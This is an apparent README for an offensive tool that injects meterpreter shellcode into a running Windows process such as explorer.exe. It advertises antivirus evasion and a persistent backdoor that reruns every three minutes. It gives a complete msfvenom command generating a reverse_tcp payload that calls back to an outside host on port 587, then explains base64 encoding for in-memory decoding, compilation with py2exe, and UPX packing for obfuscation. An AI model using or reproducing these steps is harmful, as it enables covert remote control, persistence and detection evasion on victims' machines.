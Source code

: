 #-----------------------------------#
#   AV-Safe Meterpreter Injection   #
#  Author: Leg3nd @ https://leg3nd.me
#-----------------------------------#

# Description #
Undetected meterpreter oode injection payload This will inject 
meterpreter shellcode directly into a given process. It will
also create a persistent backdoor to run this every 3 minutes,
regardless of power state, etc, etc.

# Generate Payload #
Use the following command in order to generate the shellcode:
  - data=$(msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.42.2 LPORT=587 -f c | tr -d '\"' | tr -d '\n' | awk -F= '{print $2}' | awk '{print $1}') ; python -c 'import base64;print base64.encodestring("'$data'").replace("\n","")'

You will paste this base64 encoded shellcode into inject.py under the "code" variables. This
shellcode will be decoded at runtime in memory and injected into the memory space of an 
existing process such as explorer.exe.

# Compile the Python #
You need a few dependencies to get this to compile (on windows):
  - Python 2.7
  - py2exe
  - ctypes

After you have these, just run the compile.bat to generate inject.exe.

If you want, you can also run upx.sh from Linux for extra obfuscation
and filesize reduction. It can't hurt so mine as well.

